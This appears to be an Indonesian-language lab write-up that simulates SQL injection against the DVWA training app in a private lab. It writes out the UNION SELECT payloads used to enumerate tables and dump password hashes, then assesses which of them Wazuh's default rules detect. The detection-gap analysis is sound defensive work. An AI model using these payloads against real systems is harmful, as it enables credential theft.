






# SQL Injection — DVWA (Web-Server)

## Tujuan

Simulasi manual **SQL Injection** ke modul **SQL Injection** DVWA (`10.10.10.10`) dari Kali Linux, sekaligus jadi validasi utama: **apakah default ruleset Wazuh bisa detect serangan ini** — dari fase recon sampai data exfiltration. Sesuai filosofi lab: deteksi dulu, bukan eksploitasi.

---

## Prerequisites

- DVWA sudah bisa diakses dari Kali — lihat [`dvwa-external-access.md`](../../../Infrastructure/dvwa-external-access.md)
- Wazuh Agent di Web-Server sudah running — lihat [`web-server-wazuh-agent.md`](../../../Infrastructure/web-server-wazuh-agent.md)
- Agent Web-Server sudah dikonfigurasi baca `/var/log/apache2/access.log` lewat `<localfile>` stanza di `ossec.conf` — default agent Ubuntu belum monitor log Apache, harus ditambahin manual:
  ```xml
  <localfile>
    <log_format>apache</log_format>
    <location>/var/log/apache2/access.log</location>
  </localfile>
  ```
- DVWA **Security Level** di-set ke `Low` (menu **DVWA Security**) — Security Level cuma ngaruh ke modul vulnerability, gak ngaruh ke form login (form login DVWA emang udah di-hardcode escape, gak bisa dijadiin auth-bypass SQLi)

---

## Step-by-Step

### 1. Login & Cek Security Level

Login normal ke DVWA pakai kredensial default, cek **DVWA Security** tertulis `low`.




### 2. Baseline — Input Normal

Masuk ke modul **SQL Injection**, coba input `1`, `2`, `3` — nampilin data user sesuai ID, behavior normal/expected. Ini jadi baseline sebelum masuk ke payload attack.

### 3. Discovery — Cek Celah

Coba `1'` dulu — di modul ini gak muncul error kentara di halaman. Lanjut cek jumlah kolom pakai `ORDER BY` incremental:

```
1' ORDER BY 1-- -   → normal
1' ORDER BY 2-- -   → normal
1' ORDER BY 3-- -   → error (Unknown column) → confirmed cuma 2 kolom (first_name, last_name)
```



### 4. Enumerasi Database & Versi

```sql
1' UNION SELECT database(),version()-- -
```

Output: database aktif `dvwa`, versi MariaDB `11.8.6-MariaDB-5 from Ubuntu`.



### 5. Enumerasi Tabel

```sql
1' UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database()-- -
```

Ketemu tabel: `access_log`, `guestbook`, `users`, `security_log`.



### 6. Dump Kredensial

```sql
1' UNION SELECT user,password FROM users-- -
```

Berhasil dump username + password hash semua user dari tabel `users`.



---

## Verifikasi

Tiap step di atas dicek silang ke `access.log` (Web-Server) dan Wazuh Dashboard (Threat Hunting, filter `agent.name: web-server`):

| Payload | HTTP Status | Ke-detect Wazuh? | Rule | Catatan |
|---|---|---|---|---|
| `1'` | 200 | ❌ Tidak | - | Quote tunggal dianggap terlalu generic, gak match signature apapun |
| `1' ORDER BY 1/2/3-- -` | 200 | ❌ Tidak | - | `ORDER BY` dianggap keyword SQL biasa, gak masuk daftar signature attack |
| `1' UNION SELECT database(),version()-- -` | 200 | ✅ Ya | **31106** — "A web attack returned code 200 (success)", level 6, MITRE T1190 | Match base signature `UNION SELECT` |
| `1' UNION SELECT table_name,... information_schema...-- -` | 200 | ✅ Ya | **31106**, level 6 | Match base signature `information_schema` |
| `1' UNION SELECT user,password FROM users-- -` | 200 | ✅ Ya | **31106**, level 6 | Data exfiltration credentials terdeteksi, tapi severity masih sama level 6 dengan recon biasa |
| *(cross-check)* modul **SQL Injection (Blind)**, payload `1'` | 404 | ✅ Ya (kebetulan) | **31101** — "Web server 400 error code", level 5 | DVWA sengaja balikin 404 buat sinyal blind SQLi; rule ini generic 400-error, bukan signature SQLi |

**Kesimpulan:**

1. Default Wazuh ruleset (rule 31106) **punya** base signature buat pattern SQLi eksplisit (`UNION SELECT`, `information_schema`), tapi **gagal detect fase recon** — payload awal (`'`, `ORDER BY`) yang biasa dipakai attacker buat mastiin vulnerable sebelum full exploit, lolos tanpa alert sama sekali.
2. **Severity level gak proporsional**: recon (`database(),version()`) dan **data exfiltration credentials** sama-sama kena level 6 — SOC analyst yang filter dashboard di level tinggi (≥10) bakal skip kejadian pencurian kredensial ini.
3. Alert di modul Blind (rule 31101) **bukan deteksi SQLi asli** — itu kebetulan match rule generic "400 error", jadi kalau attacker pakai payload yang gak nyebabin status error (murni boolean-based tanpa 404), itu juga bakal lolos.

Gap-gap ini jadi basis desain custom rule di `Detection-Engineer/wazuh-rules/`.
